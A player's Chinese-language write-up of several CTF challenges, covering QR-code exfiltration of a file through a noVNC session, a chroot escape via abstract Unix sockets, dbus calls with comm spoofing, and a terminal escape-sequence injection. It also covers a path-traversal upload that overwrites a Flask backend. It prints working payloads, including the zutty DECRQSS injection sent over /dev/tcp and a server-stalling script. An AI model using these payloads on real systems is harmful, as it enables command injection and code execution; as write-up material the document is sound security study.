qrcode 二维码的一个好处就是有很多实现，比如这个名叫 [qrcode](https://github.com/lincolnloop/python-qrcode) 的 python 程序它直接支持在终端输出二维码，不需要图片查看器什么的，这就很好（所以直到赛后我才听说这个题目环境里竟然是有浏览器的）。本题的环境不光很贴心地给了 python，甚至还有 zstd，那就可以用 zstd 来压缩 payload。我用 [zipapp](https://docs.python.org/zh-cn/3/library/zipapp.html) 加上手工删除不必要的文件创建了一个 .pyz 文件，然后用 `zstd -19` 压缩，压到了 22227 字节也就是大约 22kB，用 base64 命令编码后大约是 400 行。

但模拟键盘输入却卡住了我。我尝试用 `document.dispatchEvent` 模拟键盘事件不知道为什么不起作用。于是就想调用 noVNC 的 js 函数来发送键盘事件，就去阅读它的源码，找到应该是它的 [`RFB.sendkey`](https://github.com/novnc/noVNC/blob/v1.5.0/core/rfb.js#L461) 函数实现的，并且在 [`UI.connect`](https://github.com/novnc/noVNC/blob/v1.5.0/app/ui.js#L1045) 函数里实例化了这个 `RFB` 对象。但是在前端看了半天没找到怎么访问这些对象，连[今年 geekgame 学到的 heap snapshot](https://github.com/PKU-GeekGame/geekgame-4th/tree/master/official_writeup/web-ppl) 都用上了。最终我想到了一个很邪道的办法：

用 mitmproxy！本题目是 http 协议而不是 https，用起来应该很方便。我去过了一遍 mitmproxy 文档的教程，选择使用反向代理模式运行它，命令是：

```shell
mitmproxy --mode reverse:http://202.38.93.141:12010/
```

它默认 listen 的端口是 8080，然后在浏览器访问 http://mitm.localhost:8080/ 即可用 token 登录，然后访问 http://mitm.localhost:8080/static/noVNC/vnc.html 就可以开始了。我修改了 `/static/noVNC/app/ui.js` 里面的 `UI.connect` 函数，添加一行 `document.rfb = UI.rfb;` 之后就能在前端轻松访问它了。

我先是在 console 直接调用 `rfb.sendKey` 发送键盘按下和抬起事件，键盘事件的 keysym 定义在 [`/static/noVNC/core/input/keysym.js`](https://github.com/novnc/noVNC/blob/v1.5.0/core/input/keysym.js) 里。发现这里的 scancode 可以不发送，只需要 keysym 就行了。不过写了个循环连续发送后发现，非常非常卡，而且发送十几二十个键以后就卡死不动了，这让我差点想放弃了。不过我发现在两次发生事件之间加一个短暂的 sleep 就没问题了，进一步尝试发现这个 sleep 可以很小，1ms 都行，能达到大约将近 1 秒发送 1 行 base64 的速度。

发送 payload 的代码如下，我这题没写油猴脚本而是直接粘贴到 console 运行的：

```js
const keysyms = (await import("/static/noVNC/core/input/keysym.js")).default
const keymap = {
    "A": keysyms.XK_A,
    ...
    "a": keysyms.XK_a,
    ...
    "0": keysyms.XK_0,
    ...
    "+": keysyms.XK_plus,
    "/": keysyms.XK_slash,
    "=": keysyms.XK_equal,
    "\n": keysyms.XK_Return,
    " ": keysyms.XK_space,
    ".": keysyms.XK_period,
    ">": keysyms.XK_greater,
    "-": keysyms.XK_minus,
}
const qrcode_pyz_zst = `\
KLUv/aRnewEARGAB+tKkKFTgUEScA/AP8oUhAImMY7BQBjbMgwJsmAMGMaMBgghIqqEtk7AtslJP
...
+bNpmTgzmCFlnzEiLsksazyQ4J3IFYz63ZKE+UlIu7EwsGr6Ul6xpUSAXHCAaG4EXQoAyf4L
`
async function sleep(ms) {
    await new Promise(resolve => setTimeout(resolve, ms))
}
async function press_key(c) {
    document.rfb.sendKey(keymap[c], null, true)
    await sleep(1)
    document.rfb.sendKey(keymap[c], null, false)
}
async function press_EOF() {
    document.rfb.sendKey(keysyms.XK_Control_L, null, true)
    await sleep(10)
    await press_key("d")
    await sleep(10)
    document.rfb.sendKey(keysyms.XK_Control_L, null, false)
}
async function type_string(str) {
    let count = 0
    for (const c of str) {
        await press_key(c)
        await sleep(1)
        if (c === "\n") {
            count += 1
            console.log(count)
        }
    }
}
await type_string("time cat >foo\n")
await sleep(500)
await type_string(qrcode_pyz_zst)
await sleep(500)
await press_EOF()
await sleep(500)
await type_string("base64 -d foo > qrcode.pyz.zst\n")
await sleep(500)
await type_string("unzstd qrcode.pyz.zst\n")
await sleep(500)
```

要花 4 到 6 分钟才能传完。中途制作 pyz 包失败了几次，每次都要等好几分钟挺折磨的，而且好像这个浏览器标签页还不能失去焦点，否则就暂停了。（更正：其实是不能最小化，不是不能失去焦点）

然后就是生成二维码了，一年前朋友给我推荐了一篇介绍 QRCode 的博客：[「QRCode 标准阅读」#1 构成及数据编码](https://blog.tonycrane.cc/p/1c1e6bbc.html)，我直接参考它了，这里提到字节模式下一张二维码最多能编码 2953 个字节，于是就需要用 `split` 命令来分割 `/secret` 文件：

```js
await type_string("split -b 2953 -d -a 3 /secret\n")
await sleep(500)
await type_string("ls\n")
```

能看到从 `x000` 到 `x177` 总共是 178 个文件。



并且经过尝试，才发现这个 python-qrcode 默认的纠错等级是 M 中等 15%，需要用 `--error-correction=L` 手动指定 L 7% 才能编码，否则会报错。以及，因为二维码是直接输出到终端的，这么大尺寸的 qrcode 在默认字体尺寸下肯定显示不全，要缩小字体直到终端能容纳 90 行以上才行。二维码显示效果如下：



那么问题来了，这么多二维码，该用什么扫呢？记得当年 [来自未来的信笺](https://github.com/USTC-Hackergame/hackergame2020-writeups/blob/master/official/%E6%9D%A5%E8%87%AA%E6%9C%AA%E6%9D%A5%E7%9A%84%E4%BF%A1%E7%AC%BA/) 那题的结果证明二维码扫描软件的情况挺不乐观的。普通的二维码扫描软件且不说是否支持二进制数据、能不能扫如此大尺寸高密度的二维码，每扫一张都得导出数据并存储，手动操作起来也太麻烦了。

事实上确实有很多二维码扫描软件不能扫如此大尺寸的二维码的，几个月前 Linux 内核引入 drm panic 功能并引入[在 drm panic 界面显示崩溃信息的二维码](https://www.phoronix.com/news/Linux-6.12-DRM-Panic-QR-Code)时人们就发现了，我也因此在 phoronix 评论区和 [kdj0c/panic_report#1](https://github.com/kdj0c/panic_report/issues/1#issuecomment-2208320544) 得知有一个叫 [binaryeye](https://f-droid.org/packages/de.markusfisch.android.binaryeye/) 的 Android app 能扫，它是基于 zxing-cpp 的。在 f-droid 上就可以安装，因此我当时就安装了它。

研究了一下发现，这个 binaryeye 有一个连续扫描模式，而且可以选择记录扫描历史，还带自动去重，这就解决了自动扫描的问题。然后就是如何导出扫描历史里扫到的数据，而更让人惊喜的是，它甚至支持导出为 sqlite 格式，这样传到电脑上一行就可以一个脚本直接解析出来了，可以说是一条龙服务非常强大。因此 binaryeye 应该是我已知的地表最强二维码扫描 app 了，强烈推荐。

在题目机器上写一个循环准备运行，但先不按下回车：

```shell
for f in x*; do
  python3 qrcode.pyz --error-correction=L <$f
  sleep 1
done
```

按 CTRL 加减号缩小到合适尺寸以后，把手机举到电脑屏幕前，按下回车，就会开始扫描了。因为有 178 张二维码，所以需要举着手机三分多钟。其实 binaryeye 也可以调整扫描间隔为 0.25 秒让它加快一点，默认是 0.5 秒，不过当时我没注意到能调整。

然后在 binaryeye 里面导出 sqlite，传到电脑上用脚本读出来就行了。

```python
import sqlite3

def main():
    con = sqlite3.connect("file:qrcode.db?mode=ro", uri=True)
    con.row_factory = sqlite3.Row
    res = con.execute("select raw from scans;")

    data_list = []
    while row := res.fetchone():
        data = row["raw"]
        data_list.append(data)
    assert len(data_list) == 178

    with open("secret", "wb") as f:
        for data in data_list:
            f.write(data)

main()
```

（本来想录一个视频的，但太麻烦了就放弃了）

## 第17题：看不见的彼方：交换空间

chroot 逃逸，这又到我熟悉的地方了。一开始就做的这题，本来想抢个一血，结果晚了一步，两小题都是第二个做出来的（

前年的“看不见的彼方”题目用 seccomp 禁止了 socket，而今年没禁止 socket 只是限制了内存，那就好办了。因为有了 socket，那就可以用 unix domain socket 来使用 `SCM_RIGHTS` 发送文件描述符。

不过可能有读者会想，`AF_UNIX` 的地址不是绑定到文件系统路径的吗，chroot 了还怎么访问呢？是个好问题，答案是 Linux 上还支持一种特殊的地址，以 NUL 字符开头，叫做“抽象套接字”（详见手册：[unix(7) $ abstract](https://man.archlinux.org/man/unix.7#abstract)），它不受文件系统的限制，只要知道地址就能访问。在 `ss` 命令中显示前缀为 `@` 的地址就是抽象套接字地址。

它对 ctf 来说很方便，但对系统安全性来说可不是个好消息，比如 Xserver 和 Xwayland 默认就会 listen 一个抽象套接字地址，像 flatpak 这样的容器内的进程仍然可以访问它，尽管有 Xauth 认证这也是无缘无故地暴露了攻击面，这很不好。

当然也不是没法禁止它，但它需要网络命名空间才能隔离（见手册：[network_namespaces(7)](https://man.archlinux.org/man/network_namespaces.7)），对于像 flatpak 这样的 rootless 容器来说这就意味着会完全禁止容器内访问网络，除非使用 slirp4netns 或 [passt/pasta](https://passt.top/) 这样的用户空间网络栈，或者加入别的由 root 创建并配置好的 netns，这些都不是简单的办法。flatpak 和 bwrap 至今还挂着几个相关 issue：[flatpak/flatpak#1202](https://github.com/flatpak/flatpak/issues/1202)、[containers/bubblewrap#392](https://github.com/containers/bubblewrap/issues/392)、[containers/bubblewrap#157](https://github.com/containers/bubblewrap/issues/157)、[containers/bubblewrap#61](https://github.com/containers/bubblewrap/issues/61)。

回到本题，我们可以在一个进程中 bind 一个 `\0` 开头的地址，另一个进程 connect 到它并把文件描述符发给它就可以退出了，然后由拿到文件描述符的进程负责剩下的工作。用 python 实现起来非常简单：

```python
#!/bin/python3
# alice
import socket

fd = os.open("/space/file", os.O_RDWR)

sock = socket.socket(socket.AF_UNIX, socket.SOCK_DGRAM)
sock.bind(b"\0foobar")
msg, fds, flags, addr = socket.recv_fds(sock, 1024, 1)
other_fd = fds[0]
```

```python
#!/bin/python3
# bob
import socket
import time

sock = socket.socket(socket.AF_UNIX, socket.SOCK_DGRAM)
time.sleep(0.5)
sock.connect(b"\0foobar")
socket.send_fds(sock, [b"hello"], [os.open("/space/file", os.O_RDWR)])
```

### 小菜一碟

拿到了两个文件描述符，接下来就好办了。为了节省内存，可以先分别从两个文件中读取一小块内存，再交换写入进去，这样可以一直重用同一块有限的缓冲区。于是选择用 pread 和 pwrite 循环来实现。不过在 python 当中 `os.read` 和 `os.pread` 都不接受提前分配的缓冲区，而是它自己分配一个 bytes 对象返回。虽然这也不是什么大问题，不过我还是选择了 `os.preadv` 这个可以传入 bytearray 对象的接口。

实现如下：

```python
def exchange_files(fd1, fd2, filesize, bufsize=4096):
    buf1 = bytearray(bufsize)
    buf2 = bytearray(bufsize)
    offset = 0
    while offset < filesize:
        os.preadv(fd1, [buf1], offset)
        os.preadv(fd2, [buf2], offset)
        os.pwrite(fd2, buf1, offset)
        os.pwrite(fd1, buf2, offset)
        offset += bufsize

fsize = os.fstat(fd).st_size
exchange_files(fd, other_fd, fsize)
```

[查看完整代码](./src/q17_看不见的彼方：交换空间/flag1_a.py)

### 捉襟见肘

第 2 小题是需要 move 文件，而不是原地交换，为了不撑爆内存就需要每复制一点，就从源文件里把复制过的部分删掉。一个很简单的解法就是从末尾往开头复制，然后用 [`ftruncate(2)`](https://man.archlinux.org/man/ftruncate.2) 把末尾截断掉。不过我这里用的是另一种办法，是 [`fallocate(2)`](https://man.archlinux.org/man/fallocate.2) + `FALLOC_FL_PUNCH_HOLE` 来给文件打洞，它可以释放掉文件中的任意一块区域并在逻辑上清零，从而让文件成为稀疏文件。手册说很多文件系统都支持它，尤其是 tmpfs 自从 Linux 3.5 起就支持。

核心逻辑如下：

```python
def move_file(src_fd, dst_fd, bufsize=4096):
    filesize = os.fstat(src_fd).st_size
    buf = bytearray(bufsize)
    offset = 0
    while offset < filesize:
        os.preadv(src_fd, [buf], offset)
        os.pwrite(dst_fd, buf, offset)
        fallocate(
            src_fd,
            FALLOC_FL_KEEP_SIZE | FALLOC_FL_PUNCH_HOLE,
            offset,
            bufsize,
        )
        offset += bufsize
```

python 标准库没有包装这个系统调用，所以不得不用 ctypes 手动包装一下。

查看完整代码：[alice](./src/q17_看不见的彼方：交换空间/flag2_a.py)、[bob](./src/q17_看不见的彼方：交换空间/flag2_b.py)。

## 第20题：不太分布式的软总线

难度不大但很有教育意义的一道题，可以当作一个特殊的 dbus 入门教程了（

在使用 Linux 的过程中，我很早就听说了 dbus，但是我一直不理解它具体是如何工作的、有哪些机制、以及为什么要有那些机制，对它的印象是很复杂，网上也没有很好的介绍。为什么要无缘无故做一个这样的总线，直接用 unix domain socket 客户端直接和服务端通信、用 json 或 msgpack 序列号消息不好吗？听说它支持发布/订阅模式，但也弄不明白它是如何工作的。由于其作为总线的设计，一个用户也无法启动多个互不干扰的服务。而且它也没有内置的安全机制，不能直接暴露给沙箱，需要 xdg-dbus-proxy 这样的反向代理。因此我一直或多或少对 dbus 有点抵触，而这道题才让我第一次真正接触 dbus，学到了不少东西。

首先阅读一下代码，这是一个基于 glib 实现的 dbus 服务，它首先在系统总线上获取了一个名称，并在其上注册了一个对象，对象上有一个接口，这个接口里有三个方法（真是套娃啊），分别是获取 3 个 flag。从源码里定义接口的 xml 能看到这 3 个方法的参数和返回值的数量和类型。

为了方便测试，我先写了[一个 PKGBUILD 打包脚本](./src/q20_不太分布式的软总线/PKGBUILD)在我的 archlinux 上打包安装它，然后以 root 启动这个 flagserver。

### What DBus Gonna Do?

阅读代码发现，第一个 flag 似乎没什么特别的，就是发送一个特定的字符串，然后 flagserver 就会返回给我们 flag1。

印象中记得听说过命令行也可以发送 dbus 消息，于是便去搜了一下，很容易便搜到一个 `dbus-send` 命令，阅读[其手册](https://dbus.freedesktop.org/doc/dbus-send.1.html)后不难写出调用这个方法的命令：

```shell
dbus-send --system --print-reply \
  --dest=cn.edu.ustc.lug.hack.FlagService \
  /cn/edu/ustc/lug/hack/FlagService \
  cn.edu.ustc.lug.hack.FlagService.GetFlag1 \
  string:"Please give me flag1"
```

一开始我没加 `--print-reply` 参数，因此没有任何输出，又搜索了一下介绍的文章（比如[这篇](https://sheitsandgiggles.com/2019/07/16/a-trip-into-dbus-send/)）才发现是少了这个参数。

因此这一个 flag 还是很送分的，主要是熟悉一下 dbus 的基本操作。

### If I Could Be A File Descriptor

这一问需要发送的就不是字符串了，而是要发送一个文件描述符。阅读手册和搜索可知 dbus-send 是不支持发送文件描述符的，所以要么尝试另找工具，要么就得写代码了。我记得听说 systemd 有一个自己的 dbus 实现，叫做 sd-bus，于是就去搜了一下。一搜不要紧，搜到了一篇 Lennart Poettering 的介绍 dbus 的博客：[The new sd-bus API of systemd](https://0pointer.net/blog/the-new-sd-bus-api-of-systemd.html)，虽然标题是 sd-bus 但大半篇幅都在介绍 dbus 的基础概念以及现有的 dbus 实现上，是一篇非常好的 dbus 介绍文章，强烈推荐阅读。

文章中提到，常见的 dbus 实现主要有 3 个，一个是参考实现，上面的 dbus-send 就是参考实现的一部分；一个是 glib 的 gdbus 实现，本题目的代码就是基于它的；还有一个就是 systemd 的实现，它主要包括 sd-bus 这个库以及一个 `busctl` 命令行程序。正如文章所说，这个 busctl 程序很方便的一点是支持 shell 自动补全。比如尝试用它来获取 flag1：

```shell
busctl call \
  cn.edu.ustc.lug.hack.FlagService \
  /cn/edu/ustc/lug/hack/FlagService \
  cn.edu.ustc.lug.hack.FlagService \
  GetFlag1 \
  s 'Please give me flag1'
```

然后我搜索 busctl 如何发送文件描述符，结果才发现这是一个刚刚实现的功能：[busctl: Support file descriptors in busctl](https://github.com/systemd/systemd/commit/f88813b71a6fcd92bf04c6adcb54e7cd7551f7e2)，甚至尚未正式发布，将于下一个版本 systemd v257 中发布，真是非常意外。另外实际上本题目的环境里也没有 busctl 命令。

于是我打算找找 gdbus 有没有命令行工具，搜了一下还真有，而且它的命令行可以发送文件描述符！于是尝试直接发送 stdin 的文件描述符：

```shell
gdbus call --system \
  --dest cn.edu.ustc.lug.hack.FlagService \
  --object-path /cn/edu/ustc/lug/hack/FlagService \
  --method cn.edu.ustc.lug.hack.FlagService.GetFlag2 \
  0
```

但是会报错：`Please don't give me a file on disk to trick me!`，然后回头阅读代码发现，题目会检查文件描述符的路径，它不能真正出现在文件系统上，因此必须是“匿名”的文件。最常见的匿名文件就是管道，因此打开一个管道并传递给 gdbus 进程即可。在 bash 中支持这样的语法：

```bash
exec 10<<<"Please give me flag2"
```

然后把 10 这个文件描述符也重定向给 gdbus：

```bash
gdbus call --system \
  --dest cn.edu.ustc.lug.hack.FlagService \
  --object-path /cn/edu/ustc/lug/hack/FlagService \
  --method cn.edu.ustc.lug.hack.FlagService.GetFlag2 \
  10 10<&10
```

当然，实际上直接 `echo Please give me flag2 | gdbus call` 也是可以的。

### Comm Say Maybe

flag3 则是做了一个检查，检查发起请求的进程的 `/proc/<pid>/comm` 名称，但它是可以伪造的（见手册 [proc_pid_comm(5)](https://man.archlinux.org/man/proc_pid_comm.5)），不论是直接写入还是调用 `prctl`。

考虑到本题的教学性质，猜测应该是希望做题者修改题目提供的 getflag3 的代码来获取 dbus 方法的返回值。不过我还是选择了一个歪门邪道的做法，用 `LD_PRELOAD` 来修改 gdbus 进程的 `/proc/self/comm`。具体来说是实现一个 `socket` 函数来代替 libc 的实现，在这个函数里先设置 comm，然后再用 `syscall` 函数去调用真正的 `SYS_socket` 系统调用。

查看代码：[set_comm_to_getflag3.c](./src/q20_不太分布式的软总线/set_comm_to_getflag3.c)、[flag3.sh](./src/q20_不太分布式的软总线/flag3.sh)

## 第22题：动画分享

看到题目里加粗的“**几年前编译的某~~祖传~~终端模拟器**”，我一眼就知道本题考的是什么知识。

终端和终端模拟器是个有几十年历史的积重难返的老古董，它存在一些严重的设计缺陷，其中包含不可修复的安全漏洞：命令行和 TUI 应用程序和终端模拟器的通信是通过 ANSI 转义序列进行的（如果读者不了解转义序列，可以看看[我在 2021 年的题解](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/players/GalaxySnail/README.md#%E7%AC%AC6%E9%A2%98%E9%80%8F%E6%98%8E%E7%9A%84%E6%96%87%E4%BB%B6)，其中讲过的一些基础知识这里不再赘述）。一种常见的模式是应用程序发送一些转义序列作为请求，而终端模拟器返回一些转义序列作为响应。这些请求和响应和正常的输入输出是混在一起的，是一种**带内信令（in-band signaling）**。比如，如下转义序列可以查询当前光标的位置：

```shell
echo -en '\e[6n'; head -n1 >/dev/null
```

会看到屏幕上显示出了：

```
^[[38;1R
```

这时候再按回车可以回到 shell。这里返回的信息的含义是，光标的位置在第 38 行、第 1 列。需要这个信息的应用程序就可以从 stdin 读取并解析该响应。

而假如你试试只允许 echo 不加后面的 head，会发现令人惊恐的一幕：有几个字符 `;1R` 被输入到了 shell 里。



这就是这种带内信令的根本缺陷，它很容易导致各种各样的注入攻击，假如你可以控制某些响应的内容，那就可以向终端里的程序注入任意字符。即使只是 cat 了一个不信任的文件，都可能导致任意代码执行。

在历史上，它导致了许多 CVE，以及许多甚至没有分配 CVE 号但同样严重的安全漏洞，比如 2023 年的一篇文章：["\<ESC\>\[31M"? ANSI Terminal security in 2023 and finding 10 CVEs](https://dgl.cx/2023/09/ansi-terminal-security) 对此有很好的介绍和总结，文中列举的案例触目惊心。终端模拟器产生的响应数不胜数，运行在终端里的程序也数不胜数，只要存在一种组合，能让终端模拟器产生一个特定响应，其会被终端应用程序以某种有意义的方式解释，就能够产生注入，并可能是任意代码执行，因此它根本防不胜防。

而其中最易于理解也相对易于修复的一种，就是文中称为 full echoback 的类型，请求内的某些字符串被完整地原样回显给应用程序的 stdin，这样就能向 shell 注入任意字符串。接下来我们会看到，本题目就属于这一种。

并且看到本题是一个 HTTP 服务器，马上又想到 python 标准库 `http.server` 的一个漏洞，它将请求的原始字节直接输出到终端里从而扰乱了终端：[`python -m http.server` log messages to stderr can emit raw data](https://github.com/python/cpython/issues/100001)。在我的 NAS 还是 Ubuntu 20.04 的时候我就深受其扰，因为我的浏览器设置了默认 https，因此它会优先使用 TLS 握手，而这个 client hello 包就会导致 `http.server` 进程死亡，还得我重新把它启动一遍。不知道为什么虽然上游修了 Ubuntu 也没有修（而我也一直懒得自己 patch）。今年我的 NAS 也换成 archlinux 之后终于不用受这个问题影响了（

### 只要不停下 HTTP 服务，响应就会不断延伸

回到题目，第一小题其实非常简单。阅读代码发现这是一个没有任何并发的单线程服务器，因此如果要卡死它的话只需要 connect 然后 sleep 就行了。当然，因为题目代码会等待我们的进程退出，所以需要 fork 一个子进程来卡死服务器，父进程直接退出。代码如下：

```python
#!/usr/bin/python3
import os
import sys
import socket
import time

pid = os.fork()
if pid > 0:
    # parent
    sys.exit()

# child
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 8000))
time.sleep(114514)
```

### 希望的终端模拟器，连接着我们的羁绊

根据本题 http 服务器的代码，它有和前面所述 `python -m http.server` 同样的漏洞，把请求的原始内容直接输出到终端里，因此我们可以利用它来向终端注入字符。

因为本题是一个旧版本的终端模拟器，因此很显然说明新版里已经修复了我们将要利用的漏洞。于是看看这个项目的 git log，找到是 0.12 到 0.13 版本之间的这个 commit 修复了一个漏洞：[Do not echo invalid input on DECRQSS (Request Status String)](https://github.com/tomscii/zutty/commit/bde7458c60a7bafe08bbeaafbf861eb865edfa38)。其实后来发现上面那篇 2023 年的文章就直接提到了 zutty 的这个 full echoback 漏洞。

阅读 commit message 里提到的 debian 的那个 bug 报告，看到其中提到了一个简单的 POC：`echo -ne '\eP$q\nbad-command\n\e\\'`，于是尝试本地复现。

编译运行 zutty 0.12，然后在终端里运行 netcat 来模拟受害程序以方便测试：

```shell
nc -l 5000 </dev/null
```

然后从另一个终端运行：

```shell
echo -en '\eP$q\necho hello\n\e\\' | timeout 1 nc localhost 5000
```

再回到 zutty，就能看到终端上运行了 `echo hello`。

<details>

<summary>（一点碎碎念，点击展开）</summary>

> 那天我是熬夜在做这道题，脑子已经不太清醒了，尝试了半天也没能复现这个漏洞，结果突然发现我编译之前忘记 git checkout 了。但使用了正确版本之后仍然不能复现，又折腾了好久才发现是因为我在用 netcat 模拟受害程序，但忘记了 nc 是会读取 stdin 的，所以一直没能把字符注入到 shell 里去，需要加上 `</dev/null`。因此浪费了很多时间。

</details>

那么下一步就是如何让 http 服务器退出，前面看了半天代码也没找到如何让 rust 代码 panic。不过后来转念一想，我既然都能通过终端注入字符了，那为何不注入 CTRL-C 呢？本地尝试了一下不知道为何没能成功注入 CTRL-C，不过换成 CTRL-\\ 就可以了，它对应的控制字符是 `\x1c`。

另外，题目里的 rust 代码会按行分割输入，那么如何注入换行符呢？查阅 rust 的 [`str.lines` 的文档](https://doc.rust-lang.org/std/primitive.str.html#method.lines)得知，它的行为和 python 不同，它不会拆分单独出现的回车符 `\r`，因此我们可以用 `\r` 来代替 `\n`。

最终的脚本是：

```bash
#!/bin/bash
echo -e '\eP$q\x1c\rcat /flag2 > /dev/shm/flag2\r\e\\' >/dev/tcp/127.0.0.1/8000
sleep 2
cat /dev/shm/flag2
```

## 第25题：禁止内卷

阅读代码，发现题目会返回你的分数与每一项预期分数之差的平方之和，因此尝试暴力穷举，每一项从 0 开始往上依次尝试，当遇到返回值开始增加的时候，就说明上一个猜测值是与题目预期分数完全匹配的。解码出 flag，可以得到：

```
flag{unoAAAA_esrever_now_U_run_MY_cAdecfAAAaAAAf}
```

[查看完整代码](./src/q25_禁止内卷/guess_flag.py)

但是这里有很多字母 `A`，是因为题目代码里对 `answers.json` 的数据做了一下处理，把小于 0 的数都改成了 0，而我们需要获取的是未经修改的原始值。

```python
with open("answers.json") as f:
    answers = json.load(f)
    # sanitize answer
    for idx, i in enumerate(answers):
        if i < 0:
            answers[idx] = 0
```

接下来就是题目说的另一个信息：本题目部署时开了 `--reload`，且完整部署命令为 `flask run --reload --host 0`。再次仔细阅读代码，发现题目会先把上传的文件写入到指定路径里，然后再读出来，而这个路径是可以在 HTTP 请求当中控制的，且后端没有对此做检查，因此我们可以写入任意路径，覆盖后端代码去掉对 `answers.json` 的处理，部署时的 `--reload` 参数在这里就发挥了作用。

具体来说，使用 HTTP POST 请求上传文件的一种常规方法就是 HTML 表单，也就是 `Content-Type: multipart/form-data`，在 curl 的指南文档里有一个很不错的介绍：<https://everything.curl.dev/http/post/multipart.html>。对于 python 请求库 httpx 的 API 来说，如果用如下代码发起请求：

```python
answers = [0] * 500
httpx.post("http://127.0.0.1:8888/submit", files={
    "file": str(answers).encode(),
})
```

它默认发送的文件名会是 `upload`。例如使用 netcat 输出其请求头：

```
$ nc -l 127.0.0.1 8888
POST /submit HTTP/1.1
Host: 127.0.0.1:8888
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
User-Agent: python-httpx/0.27.2
Content-Length: 1682
Content-Type: multipart/form-data; boundary=372eb1746949618f47816dde6a1f4378

--372eb1746949618f47816dde6a1f4378
Content-Disposition: form-data; name="file"; filename="upload"
Content-Type: application/octet-stream

[0, 0, 0, 0, 0, ..., 0, 0, 0, 0, 0]（手动编辑了过长的输出）
--372eb1746949618f47816dde6a1f4378--
```

当然 httpx 的 API 也支持自定义文件名和文件的 Content-Type，只需要把字典的值设为一个三元组（[参见文档](https://www.python-httpx.org/quickstart/#sending-multipart-file-uploads)）：

```python
httpx.post("http://127.0.0.1:8888/submit", files={
    "file": ("foobar.py", str(answers).encode(), "application/json"),
})
```

可以看到请求体的 form-data 变成了：

```
--d9563b36161b99315e997a13c102c8b9
Content-Disposition: form-data; name="file"; filename="foobar.py"
Content-Type: application/json
```

本题目告诉我们完整的部署命令就是 `flask run --reload --host 0`，这说明后端脚本的文件名应该就是默认的 `app.py`，并且题目说网站代码运行在 `/tmp/web`，而上传的文件被保存到了 `/tmp/uploads` 目录中，因此我们可以把文件名设为：`../web/app.py`，从而上传我们修改过的脚本覆盖掉后端脚本，从而拿到 flag。

因此，教训是在写入文件时要做好校验，写入任意路径通常就等同于执行任意代码。

## 未解出的题

### 第16题：Docker for Everyone Plus

这题我一直在折腾 zmodem 都没认真做题，所以在这记一点折腾过程。去年的 geekgame 里我第一次听说了 zmodem，但是我还没真正用过。

因为 screen 不好用所以不想用它（而且 screen 还有 suid），尝试 zssh 的时候发现不知道 Windows Terminal 怎么输入 `^@` 字符，赛后我才发现可以用 CTRL 加反引号来输入。trzsz 开发的 `tssh --zmodem` 似乎在无头 Linux 系统上用不了，我也没来得及看它怎么实现的，是不是依赖 GUI。

而如果在 Windows 上运行 tssh 的话需要自己编译 lrzsz，我从 archlinux 的仓库拉下来打包脚本构建在 msys2 里构建了一份 lrzsz，还好编译至少没报错。然后我做好了 rz 和 sz 的符号链接，分别指向 lrzsz-rz 和 lrzsz-sz。网上有一些超过 20 年前的邮件说 cygwin 上的 rz 用不了只能用 sz，不过不论如何我也只需要 sz。结果登录到环境里发现提示传输成功但实际上文件传不上去，还以为是 sz 编译出来有问题，就放弃了。结果看官方题解才发现其实是根目录挂载为只读了，msys2 编译出来的 sz 没有问题。可惜了。

另外一点是 stty 的 raw 模式，如果真的按提示说的先运行 stty 再运行 nc 的话会导致无法粘贴 token，大概是因为终端模拟器粘贴的时候用的是专门的转义序列而不是直接输入字符。前几年 hackergame 里也有要用到的题但我都没重视。我折腾了一下发现更好的方案是：

```shell
nc $addr $port | (head -n 1; sleep 3; stty raw -echo 0</dev/tty; tee); stty sane
```

先用 head 输出开头的提示，赶在 3 秒内粘贴 token，然后运行 `stty raw -echo`。这里的 `0</dev/tty` 是必要的，否则 stty 会因为 stdin 不是 tty 而不做任何操作。
